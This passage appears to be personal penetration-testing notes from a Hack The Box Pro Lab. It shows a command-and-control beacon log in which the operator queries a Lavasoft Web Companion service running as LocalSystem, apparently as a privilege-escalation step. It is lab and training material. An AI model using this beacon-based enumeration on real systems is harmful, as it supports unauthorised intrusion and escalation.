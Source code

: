 utilized to get location that takes the service
```bash
[10/20 18:58:37] beacon> shell sc qc WCAssistantService
[10/20 18:58:37] [*] Tasked beacon to run: sc qc WCAssistantService
[10/20 18:58:37] [+] host called home, sent: 55 bytes
[10/20 18:58:37] [+] received output:
[SC] QueryServiceConfig SUCCESS



SERVICE_NAME: WCAssistantService

        TYPE               : 10  WIN32_OWN_PROCESS 

        START_TYPE         : 2   AUTO_START

        ERROR_CONTROL      : 1   NORMAL

        BINARY_PATH_NAME   : C:\Program Files (x86)\Lavasoft\Web Companion\Application\Lavasoft.WCAssistant.WinService.exe

        LOAD_ORDER_GROUP   : 

        TAG                : 0

        DISPLAY_NAME       : WC Assistant

        DEPENDENCIES       : 

        SERVICE_START_NAME : LocalSystem
```
![[Penetration Testing v2/htb_pro_Labs/offshore/3. 172.16.1.36 -CORP-WSADM/screenshots/Pasted image 20231020190351.png]]
